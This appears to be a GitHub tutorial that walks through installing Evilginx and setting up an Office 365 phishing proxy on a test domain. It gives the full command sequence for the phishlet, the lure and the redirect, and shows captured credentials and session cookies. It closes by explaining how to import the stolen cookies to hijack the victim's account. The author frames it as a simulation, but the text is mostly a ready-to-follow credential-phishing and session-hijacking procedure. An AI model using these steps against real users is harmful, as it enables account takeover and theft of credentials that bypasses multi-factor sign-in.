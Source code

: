 Before proceeding with the installation of Evilginx, let’s ensure that wget is installed on the VPS.
```bash
sudo apt update 
sudo apt install wget -y
```


Next, let’s download the Go installation files.
wget https://golang.org/dl/go1.17.linux-amd64.tar.gz

Install Go by executing the following command:
sudo tar -zxvf go1.17.linux-amd64.tar.gz -C /usr/local/

Next, configure the PATH environment variable by running:
echo "export PATH=/usr/local/go/bin:${PATH}" | sudo tee /etc/profile.d/go.sh 
source /etc/profile.d/go.sh

Execute the following commands to clone the source files from GitHub:
sudo apt-get -y install git make 
git clone https://github.com/BakkerJan/evilginx2.git 
cd evilginx2 
make

After completing the cloning process, we can proceed to install Evilginx globally and run it.
sudo make install 
sudo evilginx

Now it is time to configure evilginx. We are going to simulate this with a Microsoft 365 account. For my domain, I am doing evilginxtest.shop. For my IP, it is: 52.144.47.242

config domain <yourdomain> 
config ip <yourIP> 
blacklist unauth

Next, let’s configure the Office 365 phishlet to match our domain.
phishlets hostname o365 <yourdomain> 
phishlets enable o365

If you encounter an SSL/TLS error at this stage, it indicates that your DNS records are not yet in place. When a phishlet is enabled, Evilginx attempts to obtain a free SSL certificate from LetsEncrypt for the new domain.
However, this process requires the domain to be accessible. Once the new SSL certificate is successfully activated, you can anticipate some traffic from scanners. If you’ve previously adjusted the blacklist to “unauth,” these scanners will be blocked.

In the next step, we’ll set the lure for the Office 365 phishlet and define the redirect URL. This URL comes into play after the credentials are phished and can be customized according to your preferences. For this example, we’ll use https://portal.office.com/.

lures create o365 
lures edit 0 redirect_url https://portal.office.com 
lures get-url 0

Our phishlet is now active and accessible via the URL https://login.evilginxtest.shop/RdgjuhBs (no longer active). When accessing the URL from the lure, you’ll be treated as an authenticated session, thus avoiding being blocked. 

Let us see what happens when a user goes to this link:

It seems like a regular microsoft login page.
![image](https://github.com/user-attachments/assets/dcf20d05-6fe2-40ff-97de-4fdee2eb6d06)

After entering the username and password, the user's credentials are caught through the reverse proxy the malicious domain simulates
![image](https://github.com/user-attachments/assets/b8fb9489-1cb8-4d6c-a3fc-38e4b8ee562f)

After a full sign in, we have got the session cookies. We can use the command "Sessions 0" (mine may be a different number, because I had multiple.)
![image](https://github.com/user-attachments/assets/8f293e48-b323-4167-8566-2102eec0da22)

And there you go. If you copy and paste these cookies after clearing your own into a cookie extension on your browser while on office.com, you refresh the page and you are in!





